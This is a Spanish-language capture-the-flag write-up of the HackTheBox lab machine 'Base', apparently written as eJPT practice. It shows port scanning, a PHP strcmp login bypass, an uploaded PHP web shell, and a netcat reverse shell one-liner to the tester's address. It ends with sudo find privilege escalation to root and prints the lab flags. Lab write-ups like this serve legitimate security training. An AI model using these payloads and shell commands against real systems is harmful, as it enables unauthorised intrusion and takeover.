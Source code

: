 # Base

Plataforma: HackTheBox
OS: Linux
Level: Very Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 15 de enero de 2025 21:11
IP: 10.129.127.10

## Recopilación de información

<aside>
💡

</aside>

### **Escaneo de puertos**

Comenzamos con un escaneo para identificar que puertos están abiertos.

---

```bash
❯ sudo nmap -p- --open --min-rate 5000 -sS -n -Pn -vvv 10.129.127.10 -oG allports

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

```

### **Enumeración de servicios**

Una vez listado los puertos accesibles, procederemos a realizar la enumeración de servicios para su posterior identificación de vulnerabilidades.

---

```bash
❯ sudo nmap -p22,80 -sCV 10.129.127.10 -oN targeted

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f6:5c:9b:38:ec:a7:5c:79:1c:1f:18:1c:52:46:f7:0b (RSA)
|   256 65:0c:f7:db:42:03:46:07:f2:12:89:fe:11:20:2c:53 (ECDSA)
|_  256 b8:65:cd:3f:34:d8:02:6a:e3:18:23:3e:77:dd:87:40 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Welcome to Base
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

- **Identificación de vulnerabilidades**
    - 22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
    - 80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

- **Enumeración Web**
    
    
    whatweb
    
    ```bash
    http://10.129.127.10 [200 OK] Apache[2.4.29], Bootstrap, Country[RESERVED][ZZ], Email[info@base.htb], Frame, HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.129.127.10], Lightbox, Script, Title[Welcome to Base]
    ```
    
    Vemos que la web tiene una pagina de login 
    
    ![image.png](<imagenes/image 98.png>)
    
    Siguiendo las indicaciones vemos que nos habla de *strcmp* 
    
    Buscamos como hacer el bypass al formulario de login
    
    [https://www.doyler.net/security-not-included/bypassing-php-strcmp-abctf2016](https://www.doyler.net/security-not-included/bypassing-php-strcmp-abctf2016).
    
    Se acontece pasando valores en blanco de los parametros username y password
    
    ![image.png](<imagenes/image 99.png>)
    
    Una vez hecho vemos el formulario de subida de ficheros
    

## Explotación

<aside>
💡

</aside>

### Explotación 1

Probamos a subir una revershell : cmdshell

```php
<?php echo "<pre>" . system($_GET['cmd']) . "</pre>"; ?>
```

Accedemos al directorio de descargas /.uploaded y prbamos un woami

![image.png](<imagenes/image 100.png>)

Tenemos RCE, probamos a obtener una Shell

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.16.103 4444 >/tmp/f

URlEncodeamos

rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%2010.10.16.103%204444%20%3E%2Ftmp%2Ff
```

![image.png](<imagenes/image 101.png>)

Hacemos el tratamiento de la tty

```php
script -c bash /dev/null
cntr+z
stty raw -echo; fg
reset x term
export TERM=XTERM
export SHELL=BASH

```

Encontramos usuario Jhon enumerando el /etc/passwd

En la carpeta de /var/www/html/login/config.php vemos credenciales :

```php
<?php
$username = "admin";
$password = "thisisagoodpassword"
```

Probamos a migrar a usuario Jhon

![image.png](<imagenes/image 102.png>)

En el home, encontramos el flag user.txt

```php
f54846c258f3b4612f78a819573d158e
```

### 

### Escalada de privilegios

Buscamos bianrios con 

```php
sudo -l
Matching Defaults entries for john on base:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on base:
    (root : root) /usr/bin/find
    
```

Buscamos en GTFObins el exploit

```php
./find . -exec /bin/sh -p \; -quit
```

Probamos :

```php
john@base:/usr/bin$ sudo find . -exec /bin/sh \; -quit
# whoami
root
# 
```

Obtenemos la flag de root:

```php
# cat root.txt  
51709519ea18ab37dd6fc58096bea949
```

## Conclusión

<aside>
💡 Maquina facil, pero que he tenido que mirar writte up porque no sabia como progresar en el tema del *strcmp.* ^ Pensaba que la enumeración iba por SSH y he perdido mucho tiempo probando explotis que no funcionaban

</aside>